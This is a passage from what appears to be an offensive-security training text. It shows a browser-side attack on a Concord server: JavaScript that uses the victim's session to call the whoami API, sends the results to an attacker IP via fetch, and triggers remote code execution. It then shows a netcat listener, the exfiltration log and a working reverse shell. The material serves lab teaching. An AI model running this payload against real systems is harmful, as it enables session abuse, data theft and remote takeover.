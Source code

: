 We'll start by creating a blob from the yml string with the content-type of "application/yml". This will not change the content-type header of the request, but will define the content-type in the form-data for fetch. Next, we'll create the form-data and append the concord.yml document. Once set up, we'll use fetch to send the appropriate request. We'll capture all responses and errors.

Finally, we'll need to edit the login check request we sent earlier to run the rce function when a user is authenticated.

...
	fetch("http://concord:8001/api/service/console/whoami", {
		credentials: 'include'
	})
	.then(async (response) => {
		if(response.status != 401){
			let data = await response.text();
			fetch("http://192.168.118.2/?msg=" + data );
			rce();
		}else{
			fetch("http://192.168.118.2/?msg=UserNotLoggedIn" );
		}
	})
...
Listing 21 - Using Fetch to Call whoami

Now that the payload is ready, we need to open a netcat listener to catch the shell. This should match the settings that we configured in our payload, including setting the port to 9000.

kali@kali:~$ nc -nvlp 9000
listening on [any] 9000 ...
Listing 22 - Starting Listener

We'll once again send our Kali IP to the user simulator. Once the simulation runs, we should find a new log entry in our HTTP server.

192.168.121.253 - - [07/Apr/2021 20:27:25] "GET / HTTP/1.1" 200 -
192.168.121.253 - - [07/Apr/2021 20:27:25] "GET /?msg={%20%20%22realm%22%20:%20%22apikey%22,%20%20%22username%22%20:%20%22concordAgent%22,%20%20%22displayName%22%20:%20%22concordAgent%22} HTTP/1.1" 200 -
192.168.121.253 - - [07/Apr/2021 20:27:25] "GET /?msg={%20%20%22instanceId%22%20:%20%22a85f6fef-69cb-4127-975c-9aa97584415e%22,%20%20%22ok%22%20:%20true} HTTP/1.1" 200 -
Listing 23 - Concord New Process Response

This new log entry contains the response the victim's browser received when a new process was added.

Our listener should also indicate that we caught a shell.

kali@kali:~$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.120.132] 39888
whoami
concord

ls -alh
total 28K
drwxr-xr-x 4 concord concord 4.0K Apr  8 00:27 .
drwx------ 3 concord concord 4.0K Apr  8 00:27 ..
drwxr-xr-x 2 concord concord 4.0K Apr  8 00:27 .concord
drwxr-xr-x 3 concord concord 4.0K Apr  8 00:27 _attachments
-rw-r--r-- 1 concord concord   36 Apr  8 00:27 _instanceId
-rw-r--r-- 1 concord concord  978 Apr  8 00:27 _main.json
-rw-r--r-- 1 concord concord  956 Apr  8 00:27 concord.yml
Listing 24 - Reverse Shell
